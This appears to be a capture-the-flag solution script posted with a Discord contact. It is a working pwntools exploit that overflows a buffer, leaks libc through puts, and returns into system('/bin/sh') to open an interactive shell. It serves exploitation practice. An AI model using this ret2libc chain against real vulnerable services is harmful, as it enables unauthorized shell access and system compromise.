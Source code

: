 ```python
payload = b"A" * 24
payload += rdi
payload += p64(elf.got.puts)
payload += p64(elf.plt.puts)
payload += p64(elf.sym.main)
p.sendline(payload)
p.sendline(b"")
p.recvuntil("> ")
p.recvuntil("> ")
libc_leak = u64(p.recvline().strip(b"\n").ljust(8,b"\x00")) - libc.sym.puts
print(hex(libc_leak))
system = libc_leak + libc.sym.system
binsh = libc_leak + next(libc.search(b"/bin/sh\x00"))
print(hex(system))
print(hex(binsh))
p.sendlineafter("login: ",user)
p.sendlineafter("password: ", password)
p.sendline("-1")
payload = b"A" * 24 + rdi + p64(binsh)  + ret + p64(system + 4)
p.sendline(payload)
p.sendline("")
#gdb.attach(p)
p.interactive()
```
for any clarification m on discord : ``Retr0#7958``.